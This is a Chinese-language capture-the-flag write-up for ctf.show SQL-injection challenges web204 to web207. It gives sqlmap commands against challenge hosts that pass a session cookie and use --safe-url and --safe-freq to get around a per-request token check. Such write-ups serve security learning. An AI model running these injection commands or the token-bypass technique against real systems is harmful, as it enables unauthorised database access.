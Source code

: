 ## web204  指定cookie

这里提示我们cookie

所以我们看看能不能直接

直接f12查看即可



```cobol
py3 .\sqlmap.py -u  "http://f4141708-80bd-4fb0-8903-5c11ff50a884.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3 --cookie="tdf9n7i7koobo6tknorubjqfr8"
```

## web205 api的鉴权



<img src="https://i-blog.csdnimg.cn/blog_migrate/fccf5d24737ef93923afe1959ad77259.png" alt="" style="max-height:160px; box-sizing:content-box;" />


这里我们发现 请求一次查询的时候 会出现 getToken

这里预防注入的方式其实就是 每一次执行就给一个新的token 如果这个api没被泄露 就无法实现 工具的攻击

这里可以使用sqlmap 的两个参数

```sql
--safe-url 指定注入前需要访问的页面 这里就是我们鉴权的界面
 
--safe-freq  指定访问的次数 这里1次即可
```

```cobol
py3 .\sqlmap.py -u  "http://0c3cb676-6f97-4bc9-b90d-4d4a34b9d2fd.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://0c3cb676-6f97-4bc9-b90d-4d4a34b9d2fd.challenge.ctf.show/api/getToken.php" --safe-freq=1
```

## web206

上一题 payload直接打

```cobol
py3 .\sqlmap.py -u  "http://ea1709ee-9337-452b-b66e-2709242193ef.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://ea1709ee-9337-452b-b66e-2709242193ef.challenge.ctf.show/api/getToken.php" --safe-freq=1
```

## web207 tamper  过滤空格

这里开始编写tamper了

我丢 好难！！！！

开始学吧
